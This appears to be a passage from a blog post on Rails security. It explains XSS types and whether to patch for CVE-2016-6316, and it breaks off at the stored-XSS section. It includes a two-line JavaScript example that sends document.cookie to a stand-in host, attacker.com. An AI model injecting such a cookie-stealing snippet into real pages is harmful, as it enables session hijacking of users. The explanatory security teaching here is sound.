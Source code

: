 ```yaml
---
id: 477
title: Do I really need to patch my Rails apps? (Understanding CVE-2016-6316)
date: 2020-04-06T13:33:24-04:00
author: Sid
layout: revision
guid: https://ducktypelabs.com/436-autosave-v1/
permalink: /436-autosave-v1/
---
```

Ruby and Rails security advisories, without exception, recommend that you upgrade your Rails app as soon as possible. Unfortunately, the descriptions of the problem being solved can be cryptic, and it can be hard to assess if you really need to do the upgrade. If you&#8217;re strapped for time, it can seem like a good plan to postpone upgrades and avoid extra work like fixing breaking tests.

**Note:** By &#8220;upgrade&#8221; in this article, we mean a &#8216;minor&#8217; or a &#8216;patch&#8217; upgrade. For example an upgrade from Rails `4.2.5.1` to `4.2.7.1`.

In this article, we&#8217;re going to look at Rails `5.0.0.1/4.2.7.1/3.2.22.3`, which fixes [CVE-2016-6316](https://groups.google.com/forum/#!topic/rubyonrails-security/I-VWr034ouk). The aims of this article are:

  1. To go over the basics of XSS vulnerabilities, how they can be exploited, and ways to mitigate them. 
  2. To increase your understanding about the specific problem being solved with the Rails `5.0.0.1/4.2.7.1` release which fixes CVE-2016-6316 &#8211; an XSS vulnerability in `ActionView` and,
  3. Help you come to a conclusion on whether you should upgrade or not

## What is an XSS Vulnerability?

&#8220;XSS&#8221; stands for cross-site scripting. When your application has an XSS vulnerability, attackers can run malicious Javascript on your users&#8217; browsers. For example, consider a Javascript snippet like the following:

    var i = new Image;
    i.src = "http://attacker.com/" + document.cookie;
    

The above snippet, when run on a user&#8217;s browser, will cause the browser to make a request to `attacker.com` and send over the user&#8217;s cookie. Using this cookie, the attacker can proceed to hijack the user&#8217;s session and gain unauthorized access to secured areas of your app.

## Types of XSS Vulnerabilities

There are three major varieties of XSS:

**Reflected XSS**

A reflected XSS vulnerability arises when user input contained in a request is immediately reflected in the web application&#8217;s response. Exploiting a reflected XSS vulnerability involves crafting a request containing embedded Javascript that is reflected to any user who makes the request.

**Stored XSS**
